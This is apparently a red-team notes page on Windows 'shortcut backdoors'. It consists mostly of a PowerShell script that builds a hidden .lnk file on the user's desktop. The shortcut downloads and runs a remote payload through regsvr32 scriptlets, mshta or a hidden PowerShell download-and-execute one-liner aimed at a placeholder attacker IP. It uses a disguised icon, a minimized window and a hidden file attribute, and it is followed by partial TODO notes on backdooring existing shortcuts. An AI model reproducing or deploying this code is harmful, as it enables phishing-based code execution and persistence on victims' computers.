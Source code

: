 # Shortcut Links

## 1.1 - Create shortcut backdoor in powershell

- Note: The **TargetPath** has a limit of 260 characters long

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)

## Scriptlet files .sct
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/shell.sct scrobj.dll'

# For HTA files
# $Shortcut.TargetPath = 'C:\Windows\System32\mshta.exe'
# $Shortcut.Arguments = 'http://<IP>/shell.hta'

# For conhost.exe and powershell one-liner
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/shell.ps1`'))`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
attrib +h $shortcutPath
```

## 1.2 - Modify existing .lnk shortcuts to insert backdoor in powershell

TODO: I got this covered - Userware

- First gather the variables to recreate a new one.

`PS C:\> Get-CimInstance Win32_ShortcutFile | Select-Object Name, FileName, CreationDate, LastAccessed, Drive, Path, FileType`

```powershell
PS C:\>
```

TODO: Use ADS (Alternate Data Streams) in the `.lnk` file with an implant

```
cmd /c mshta %CD%\Edge.lnk
```

---
## References

- [[Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/06 - Client-Side Attacks/Delivery Methods/Social Engineering/Phishing/Shortcut Link/Manual]]

- [List lnk or shortcut files in Windows with PowerShell](https://quickbytesstuff.blogspot.com/2020/05/list-lnk-or-shortcut-files-in-windows.html)

- [Dimitri's Wanderings: Get Shortcut contents in Powershell](https://dimitri.janczak.net/2018/03/26/get-shortcut-contents-in-powershell/)

- [Editing shortcut (.lnk) properties with Powershell](https://theprogrammersfirst.wordpress.com/2020/07/22/editing-shortcut-lnk-properties-with-powershell/)